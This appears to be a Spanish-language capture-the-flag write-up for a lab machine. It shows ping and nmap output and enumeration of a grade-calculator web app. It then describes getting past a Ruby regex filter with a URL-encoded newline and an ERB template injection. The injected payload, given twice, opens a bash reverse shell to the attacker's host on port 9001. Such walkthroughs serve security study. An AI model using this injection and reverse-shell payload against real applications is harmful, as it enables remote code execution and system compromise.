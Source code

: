 ### Ping
```python
ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=372 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 371.851/371.851/371.851/0.000 ms
```
### TTL 63= Linux
### nmpa
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.08 seconds
```

### Enumeración del puerto 80

![[Pasted image 20240302204849.png]]
en esta parte tenemos una especie de calculadora podemos interactuar e intentar capturar la la petición 
![[Pasted image 20240303152607.png]]
### Burpsuite
interceptamos la petición con burp y al intentar ingresar una reverse shell lo detecta como código malicioso
![[Pasted image 20240303152515.png]]


### Info
tenemos informacion de come ejecutar un Execute Code
![[Pasted image 20240303203611.png]]
en este caso tenemos que agregar un salto de linea para que ruby pueda interpretar el comando %OA mas comando a inyectar

```python
	test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
```
### regex ruby bypass

![[Pasted image 20240303203414.png]]
###### inyectamos este comando y usamos URL_ENCODE para poder baypassear 

de esta manera podemos tener acceso
![[Pasted image 20240303204746.png]]

test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
